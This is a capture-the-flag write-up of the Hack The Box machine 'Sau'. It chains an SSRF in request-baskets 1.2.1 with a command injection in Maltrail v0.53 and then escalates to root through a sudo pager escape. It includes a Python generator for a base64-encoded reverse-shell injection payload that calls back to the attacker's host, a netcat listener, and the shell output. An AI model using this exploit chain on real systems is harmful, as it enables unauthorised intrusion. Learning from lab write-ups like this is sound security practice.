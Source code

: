 # Sau

## Enumeration(nmap):
Initial: `nmap -vv -sS -oN nmap/init -A 10.129.30.180`
Found open :

	- 22 ssh
	- 80 http
	- 55555 unknown

---

HTTP Service on port 80 is unreachable so i tried to access
the service running on 55555 to see if it's a website and success.
The services hosted is an http request inspector
![/web of 55555](screenshots/home-page-req-bask.png)

## Research
Before trying anything else i saw at that the footer contains 
the software and the version used `Powered by request-baskets | Version: 1.2.1`
so i just searched to see if any public CVE's exist. I went 
to the github repo of [request baskets](https://github.com/darklynx/request-baskets)
and straight up to the issues and sure enough a [CVE](https://github.com/entr0pie/CVE-2023-27163/tree/main) was present

![issues](screenshots/git-issues-req-bask.png)
So an SSRF vulnerability (CVE-2023-27163) is present and since i saw open port 80
but cannot access it, i asume it blocks external ips
or just has a whitelist so i attempt to take a sneek
peek 

## Exploitation
![first use of cve](screenshots/ssrf-for-home-of-80.png)
![home page of 80](screenshots/local-home-page-80.png)

The service running on port 80 is Powered by Maltrail (v0.53) 
which after searching has [Unauthenticated OS Command Injection Maltrail <= v0.54 (Did not recieve a CVE)](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
After locating a [POC](https://github.com/spookier/Maltrail-v0.53-Exploit) written in python,
i only took the curl_cmd function cause in order to get rce i have 
to chain the two vulnerabilities i found, i only want the data 
porivided by the function to use as url parameters,
in a sense this is trial and error cause i don't actualy 
know if the service accepts the data as url parameters
so this was done blindly but let's attempt it

```py
import base64

def main():
	my_ip = "10.10.14.87"
	my_port = 4444
	target_url = "http://127.0.0.1/login"
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()
	parameters = f"username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`"
	print(parameters)

if __name__ == "__main__":
	main()
```

## RCE:
![payload generation](screenshots/payload-gen.png)

After i generated the payload i went to [CyberChef](https://gchq.github.io/CyberChef/) and URL-Encoded it
![payload html encoding](screenshots/cyberchef.png)

Before executing the exploit i start a netcat listener on port 4444
```sh
nc -l 4444
```
And.....
![rce](screenshots/rce.png)


Now i'm able to execute command on the remote machine 
within the terminal so i go and retrieve the flag.
```sh
➜  Sau nc -l 4444
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$
$ ls -la /home/puma
ls -la /home/puma
total 32
drwxr-xr-x 4 puma puma 4096 Jun 19  2023 .
drwxr-xr-x 3 root root 4096 Apr 15  2023 ..
lrwxrwxrwx 1 root root    9 Apr 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15  2023 .cache
drwx------ 3 puma puma 4096 Apr 15  2023 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Dec 30 18:11 user.txt
$ cat /home/puma/user.txt
cat /home/puma/user.txt
HTB{Us3R_FL4G_R3dUct3d}
$
```

In order to enumerate and attempt to escalate my privileges
i first want to have a full tty shell

## Full TTY:
[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

![sudo list](screenshots/sudo.png)

Okay so i didn't have to do much digging the hard part is over,
now when executing this command you will be prompted to an environment 
like vim/less so the only thing i have to do is **execute->** `!` the **program->** `sh` and since
the parrent process has root privileges by sudo, the resulting shell will have the same privileges.

![getting-root](screenshots/priv-esc.png) 
```sh
# cd /root
cd /root
# ls
ls
go  root.txt
# cat root.txt
cat root.txt
HTB{R00t_FL4G_R3dUct3d}
#
```


# Resources:
https://github.com/darklynx/request-baskets/issues/91

https://github.com/entr0pie/CVE-2023-27163/tree/main

https://github.com/spookier/Maltrail-v0.53-Exploit

https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
